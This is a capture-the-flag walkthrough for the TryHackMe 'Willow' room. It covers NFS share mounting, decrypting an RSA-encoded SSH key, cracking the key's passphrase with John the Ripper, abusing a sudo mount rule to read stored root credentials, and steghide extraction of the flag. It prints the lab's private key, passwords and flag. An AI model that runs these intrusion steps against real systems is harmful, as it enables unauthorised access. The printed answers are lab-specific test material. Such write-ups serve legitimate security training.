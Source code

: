 # 31 - Willow (RSA calculator for SSH key)

Room Link --> [https://tryhackme.com/room/willow](https://tryhackme.com/room/willow)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -p- -T5 -sV -vv 10.10.243.176

# outputs
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     2-4 (RPC #100003)
```
{% endcode %}

Opening the Webpage and we find a HEX encoded text, using cyberchef to decode it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
[..redacted..]
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### rpcbind enum \[111]

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap --script rpc-grind,rpcinfo 10.10.243.176 -p111

| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37980/udp6  mountd
|   100005  1,2,3      51482/udp   mountd
|   100005  1,2,3      53265/tcp6  mountd
|   100005  1,2,3      58183/tcp   mountd
|   100021  1,3,4      44424/udp6  nlockmgr
|   100021  1,3,4      45652/udp   nlockmgr
|   100021  1,3,4      45701/tcp6  nlockmgr
|   100021  1,3,4      50990/tcp   nlockmgr
|   100024  1          49744/udp6  status
|   100024  1          52105/tcp   status
|   100024  1          55785/udp   status
|   100024  1          58486/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
```
{% endcode %}

#### NFS enum \[2049]

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ showmount -e 10.10.243.176      
Export list for 10.10.243.176:
/var/failsafe *

```
{% endcode %}

Mounting the NFS share.

{% code overflow="wrap" lineNumbers="true" %}
```bash
mount -t nfs 10.10.243.176:/var/failsafe /mnt/thm -o nolock

┌──(root㉿dking)-[/home/dking/Downloads]
└─# cd /mnt/thm && ls -al 
total 12
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 3 root   root    4096 Oct 17 13:12 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys

┌──(root㉿dking)-[/mnt/thm]
└─# cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)

# Looks like a clue.
```
{% endcode %}

Back to the Webserver :(

The hint said we should visit this blog --> [https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/](https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/)

At the bottom of the blog there was some code that seemed to make sense:

<figure><img src="https://miro.medium.com/v2/resize:fit:362/1*_aB1ouQQGvfU3QwUtw4QJQ.png" alt="" height="45" width="526"><figcaption></figcaption></figure>

This seemed to tie in perfectly with the information found in the NFS file:

`Public Key (e=23, n=37625)`&#x20;

`Private Key (d=61527, n=37627)`&#x20;

We use this **RSA Calculator** to decrypt the HEX values --> [https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------](https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------)

Just substitute the values in the appropiate box.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the key.

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2E2F405A3529F92188B453CAA6E33270

qUVUQaJ+YmQRqto1knT5nW6m61mhTjJ1/ZBnk4H0O5jObgJoUtOQBU+hqSXzHvcX
wLbqFh2kcSbF9SHn0sVnDQOQ1pox2NnGzt2qmmsjTffh8SGQBsGncDei3EABHcv1
gTtzGjHdn+HzvYxvA6J+TMT+akCxXb2+tfA+DObXVHzYKbGAsSNeLEE2CvVZ2X92
0HBZNEvGjsDEIQtc81d33CYjYM4rhJr0mihpCM/OGT3DSFTgZ2COW+H8TCgyhSOX
SmbK1Upwbjg490TYvlMR+OQXjVJKydWFunPj9LbL/2Ut2DOgmdvboaluXq/xHYM7
q8+Ws506DXAXw3L5r9SToYWzaXiIqaVEO145BlMCSTHXMOb2HowSM/P2EHE727sJ
JJ6ykTKOH+yY2Qit09Yt9Kc/FY/yp9LzgTMCtopGhK+1cmje8Ab5h7BMB7waMUiM
YR891N+B3IIdkHPJSL6+WPtTXw5skposYpPGZSbBNMAw5VNVKyeRZJqfMJhP7iKP
d8kExORkdC2DKu3KWkxhQv3tMpLyCUUhGZBJ/29+1At78jHzMfppf13YL13O/K7K
Uhnf8sLAN51xZdefSDoEC3tGBebahh17VTLnu/21mjE76oONZ9fe/H7Y8Cp6BKh4
GknYUmh4DQ/cqGEFr+GHVNHxQ4kE1TSI/0r4WfekbHJr3+IHeTJVI52PWaCeHSLb
bO/2bSbWENgSJ3joXxxumHr4DSvZqUInqZ9/5/jkkg+DrLsEHoHe3YyVh5QVm6ke
33yhlLOvOI6mSYYNNfQ/8U/1ee+2HjQXojvb57clLuOt6+ElQWnEcFEb74NxgQ+I
DHEvVNHFGY+Z2jvCQoGb0LOV8cvVTSDXtbNQ5f/Z3bMdN3AhMN3tQmqXTAPuOI1T
BXZ1aDS6x+s6ecKjybMV/dvnohG8+dDrssV4DPyTOLntpeBkqpSNeiM4MdhxTHj1
PCkDWfBXEAEA/hfvE1oWXMNguy3vlvKn8Sk9We5fl+tEBvPjPNSWrEHksq4ZJWSz
JMEyWi/AxTnHDFiO+3m0Eovw41tdreBU2S6QbYsa9OOAiBnDmWn2m0YmAwS0636L
NJ0Ay4L+ixfYZ+F/5oVQbhvDoXnQCO58mNYqqlDVtD/21aj1+RtoYxSX2f/jxCXt
AMF890psZEugk+mhRZZ6HCvDewmBWkghrZeREEmuWAFkQWV/3gVdMpSdteWM7YIQ
MxkyUMs4jmwvA4ktznTVN1kK7VAtkIUa8+UuVUfchKpQQjwpbGgfdMrcJe55tOdk
M7mSP/jAl9bXlpyikMhrsdkVyNpFtmJU8EGJ4v5GlQzUDuySBCiwcZ7x6u3hpDG+
/+5Nf8423Dy/iAhSWAjoZD3BdkLnfbji1g4dNrJnqHnoZaZxvxs0qQEi/NcOEm4e
W0pyDdA8so0zkTTd7gm6WFarM7ywGec5rX08gT5v3dDYbPA46LJVprtA+D3ymeR4
l3xMq6RDfzFIFa6MWS8yCK67p7mPxSfqvC5NDMONQ/fz+7fO3/pjKBYZYLuchpk4
TsH6aY4QbgnEMuA+Errb/uf/5MAhWDMqLBhi42kxaXZ1e3ZMz2penCZFf/nofbLc
-----END RSA PRIVATE KEY-----
```

The hash is encrypted, we use `ssh2john` to crack the password.

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# output
wildflower       (id_rsa) 
```
{% endcode %}

We login via ssh.

`ssh -i id_rsa willow@10.10.243.176` -  and we are logged in.

`sudo -l` - and we can execute `/bin/mount /dev/*` with privileges.

Lets first see what is in /dev/:

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-5TMxRo9Fu-0brBgRygGTA.png" alt="" height="219" width="700"><figcaption></figcaption></figure>

There is an interesting directory /hidden\_backup. Let’s mount this, but first I will create a /dev/hidden\_backup directory in Willows /Home directory/ and then mount the /dev/hidden\_backup

_**`sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/`**_

We can now navigate to the /dev/hidden\_backup in our /home directory.

{% code overflow="wrap" %}
```bash
willow@willow-tree:~$ mkdir  dev
willow@willow-tree:~$ cd dev/
willow@willow-tree:~/dev$ mkdir hidden_backup
willow@willow-tree:~/dev$ cd ..
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/
willow@willow-tree:~$ ls /home/willow/dev/hidden_backup/
creds.txt
willow@willow-tree:~$ cat /home/willow/dev/hidden_backup/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```
{% endcode %}

And we got creds for root.

The user flag is in the "user.jpg" file.

Turns out the root flag was hidden inside the user.jpg file also, so we use the root password and steghide tool to get the root.txt.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ steghide extract -sf user.jpg   
Enter passphrase: 
wrote extracted data to "root.txt".
                                                                                                                 
┌──(dking㉿dking)-[~/Downloads]
└─$ cat root.txt   
THM{find_a_red_rose_on_the_grave}
```
{% endcode %}

Done !
